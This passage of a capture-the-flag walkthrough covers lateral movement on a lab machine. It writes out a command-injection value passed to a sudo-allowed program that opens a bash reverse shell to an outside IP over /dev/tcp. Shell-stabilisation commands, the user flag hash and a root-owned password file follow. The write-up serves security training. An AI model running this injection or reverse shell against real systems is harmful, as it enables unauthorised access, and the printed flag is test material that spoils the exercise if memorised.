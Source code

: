 Knowing this, we can receive a shell as metadata with:

```
sudo -u metadata /home/codebad/code "; /bin/bash -c 'bash -i >& /dev/tcp/192.168.200.136/9001 0>&1'"
```

![Pasted image 20250604170308.png](../../IMAGES/Pasted%20image%2020250604170308.png)

Nice, we got a shell as this user, let's stabilize it first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250604170531.png](../../IMAGES/Pasted%20image%2020250604170531.png)

Got our first flag:

```
metadata@ac11496ac62b:~$ cat user.txt
f5d22841e337cab01739e59cce3275e9
```

We also got another file named `pass.txt` owned by root:

```
metadata@ac11496ac62b:~$ ls -la
total 24
drwxr-x--- 1 metadata metadata 112 Aug 29 2024 .
drwxr-xr-x 1 root root 14 Aug 29 2024 ..
-rw------- 1 metadata metadata 5 Aug 29 2024 .bash_history
-rw-r--r-- 1 metadata metadata 220 Aug 29 2024 .bash_logout
-rw-r--r-- 1 metadata metadata 3771 Aug 29 2024 .bashrc
-rw-r--r-- 1 metadata metadata 807 Aug 29 2024 .profile
-rw------- 1 root root 15 Aug 29 2024 pass.txt
-rw------- 1 metadata metadata 33 Aug 29 2024 user.txt
```
